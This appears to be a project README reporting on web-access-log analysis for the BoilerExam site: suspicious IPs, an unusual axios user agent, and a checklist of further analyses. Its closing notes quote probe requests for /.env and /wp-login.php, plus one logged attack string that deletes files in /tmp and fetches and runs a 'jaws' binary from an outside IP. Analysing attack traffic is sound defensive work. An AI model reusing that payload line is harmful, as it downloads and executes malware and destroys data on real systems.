 ### BoilerExam Data Analysis Report

#### 1. **Suspicious Requests from a Specific IP**  
The IP address `52.169.249.118` was observed repeatedly attempting to access `wp-content` and other WordPress-related PHP files.  

For further details, refer to `results/malicious_ip.ipynb`.

#### 2. **Unusual User Agent: `axios/1.6.7`**  
Unlike typical user agent values such as Mac or Windows identifiers, there was one user agent value called `axios/1.6.7` that exhibited unusual behavior:  
  - Consistent 5-second interval requests targeting the stats page.  

For additional insights, review `results/weird_user_agent.ipynb`.

#### 3. **Miscellaneous Data Analysis**  
Some aspects of the data analysis require a deeper review but were not fully explored due to time constraints.

For more details, refer to `results/misc.ipynb`

---

### What to do in the future
    
**1. Geolocation Analysis**
  - **Goal**: Determine the geographic origin of requests based on `client_ip`.
  -  **Steps**:
        1. Use an IP geolocation service (e.g., MaxMind, IP2Location) to map IPs to locations (country, city, region).
        2. Visualize user distribution with a world map or a heatmap.
        3. Identify if certain regions generate disproportionate amounts of traffic, which might indicate:
            - Legitimate user clusters.
            - Malicious activity clusters (e.g., botnets).

**~~2. User-Agent Analysis~~** [Completed]
  - **Goal**: Analyze patterns in user behavior or detect bots.
  - **Steps**:
    1. Parse the `user_agent` field to identify:
        - Browsers (e.g., Chrome, Firefox).
        - Operating systems (e.g., Windows, macOS, Linux).
        - Suspicious user agents (e.g., scripts or bots).
    2. Look for anomalies like:
        - High traffic from outdated browsers.
        - Generic or malformed user-agent strings.

**3. HTTP Status Code Analysis**
  - **Goal**: Evaluate server responses and identify issues.
  - **Steps**:
    1. Aggregate counts of `http_status` codes.
      - **200**: Successful requests.
      - **301/302**: Redirects.
      - **403/401**: Unauthorized or forbidden.
      - **404**: Not Found.
      - **500/502**: Server errors.
    2. Investigate spikes or patterns in error codes (e.g., a sudden increase in 404s may indicate a scanning attempt).
    
**4. Request Path Analysis**
  - **Goal**: Identify popular or unusual endpoints.
  - **Steps**:
    1. Analyze the most frequently accessed endpoints in the `request` column.
    2. Detect anomalies such as:
        - Repeated access to non-existent or sensitive files.
        - High traffic to specific endpoints (e.g., `/login`, `/admin`).
    3. Categorize requests into legitimate use cases (e.g., API calls, asset requests) and suspicious activity.
    
**5. Traffic Pattern Analysis**  
  - **Goal**: Identify time-based trends or anomalies.
  - **Steps**:
    1. Group requests by time intervals (e.g., hour, minute).
    2. Plot traffic patterns over time to identify:
        - Peak usage times.
        - Unexpected bursts of activity (potential DDoS attacks or bots).
    3. Compare weekdays vs. weekends or daily patterns to understand user behavior.

**~~6. Anomaly Detection~~** [Completed]
  - **Goal**: Detect unusual activity across various dimensions.
  - **Steps**:
      1. Define thresholds for "normal" behavior (e.g., requests per minute per IP).
      2. Identify outliers in:
          - Traffic volume.
          - HTTP status patterns.
          - Repeated access to specific endpoints.
      3. Highlight IPs or requests that deviate significantly from the norm.

**7. IP Reputation Check**    
  - **Goal**: Identify malicious or suspicious IPs.
  - **Steps**:
      1. Cross-check `client_ip` with known blacklists (e.g., AbuseIPDB, Spamhaus).
      2. Flag IPs with a history of malicious activity or high abuse scores.
      3. Monitor flagged IPs for recurring patterns.
    
**8. Correlate Traffic with Referrer**    
  - **Goal**: Understand how users are navigating to the site.
  - **Steps**:
    1. Analyze the `referer` column to identify:
        - Sources of traffic (e.g., search engines, direct access).
        - Suspicious or unexpected referrers (e.g., spam domains).
    2. Detect if certain referrers are driving malicious traffic.
    
**9. Resource Load Analysis**  
  - **Goal**: Measure server resource usage.
  - **Steps**:
    1. Use `request_body_bytes` to analyze the size of incoming requests.
    2. Look for:
        - Large payloads that may indicate abuse or file upload attempts.
        - Small, frequent payloads that could be characteristic of bot activity.

**10. User Behavior Analysis**
  - **Goal**: Track individual or grouped user activity patterns.
  - **Steps**:
    1. Group requests by `client_ip` to study user behavior over time.
    2. Look for:
        - Repeated requests to the same endpoints.
        - Users accessing sensitive endpoints (e.g., `/admin`, `/login`) without valid credentials.

**~~11. Bot Detection~~** [Completed]
  - **Goal**: Separate bots from legitimate users.
  - **Steps**:
    1. Identify patterns typical of bots, such as:
        - High-frequency requests.
        - Missing or generic user-agent strings.
        - Accessing non-existent or sensitive files.
    2. Develop heuristics or use machine learning to flag bot-like behavior.
    
**12. Dashboard Creation**    
  - **Goal**: Build a dashboard for real-time monitoring.
  - **Steps**:
    1. Use tools like Grafana or Kibana to visualize trends in the data.
    2. Include metrics like:
        - Active IPs.
        - Traffic by country.
        - HTTP status distribution.
        - Most accessed endpoints.

**13. Play around with the data**
  - SELECT * FROM data WHERE http_status NOT IN (200, 304, 204);
  - Only check 301
  - http status: 401 UNAUTHORIZED, 499
  - GET /robots.txt HTTP/1.1
  - GET /wp-login.php HTTP/1.1
  - GET /ads.txt HTTP/1.1
  - GET /.env HTTP/1.1
  - ~~Censysinspect~~
  - ~~PRI * HTTP/2.0, 400~~
      - 167.94.138.41
  - OPTIONS /submissions HTTP/2.0
  - GET /shell?cd+/tmp;rm+-rf+*;wget+ 132.145.21.30/jaws;sh+/tmp/jaws HTTP/1.1302154 Hello, world
